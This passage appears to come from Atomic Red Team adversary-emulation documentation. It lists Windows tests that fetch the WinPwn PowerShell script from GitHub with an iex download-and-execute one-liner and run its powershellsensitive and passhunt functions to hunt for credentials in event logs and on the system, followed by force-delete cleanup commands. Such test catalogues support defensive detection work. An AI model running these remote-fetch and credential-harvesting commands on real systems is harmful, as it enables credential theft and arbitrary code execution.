 Check Powershell event logs for credentials or other sensitive information via winpwn powershellsensitive function.

**Supported Platforms:** Windows

**auto_generated_guid:** 75f66e03-37d3-4704-9520-3210efbe33ce

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
powershellsensitive -consoleoutput -noninteractive
```

<br/>
<br/>

## Atomic Test #10 - WinPwn - passhunt

Search for Passwords on this system using passhunt via WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 00e3e3c7-6c3c-455e-bd4b-461c7f0e7797

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
passhunt -local $true -noninteractive
```

#### Cleanup Commands:

```powershell
rm -force .\passhunt.exe -ErrorAction Ignore
rm -force .\phunter* -ErrorAction Ignore
rm -force -recurse .\DomainRecon -ErrorAction Ignore
rm -force -recurse .\Exploitation -ErrorAction Ignore
rm -force -recurse .\LocalPrivEsc -ErrorAction Ignore
rm -force -recurse .\LocalRecon -ErrorAction Ignore
rm -force -recurse .\Vulnerabilities -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #11 - WinPwn - SessionGopher

Launches SessionGopher on this system via WinPwn

**Supported Platforms:** Windows
